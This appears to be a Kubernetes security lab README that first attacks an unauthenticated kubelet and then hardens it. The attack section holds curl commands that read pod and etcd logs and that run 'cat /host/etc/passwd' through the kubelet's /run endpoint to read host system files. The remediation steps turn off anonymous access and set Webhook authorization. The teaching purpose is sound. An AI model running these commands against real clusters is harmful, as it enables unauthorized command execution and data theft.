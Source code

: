 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --format json | jq .[].networkInterfaces[].accessConfigs[].natIP | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config

``` bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
...
authentication:
  anonymous:
    enabled: true # <= change to false
...    
```

### Fix Authorization

```yaml
...
authorization:
  mode: AlwaysAllow # <= change to Webhook
...  
```

### Restart the kubelet and check the status

```bash
systemctl restart kubelet

systemctl status kubelet
```

### Verify kubelet is now safe again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet atain - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

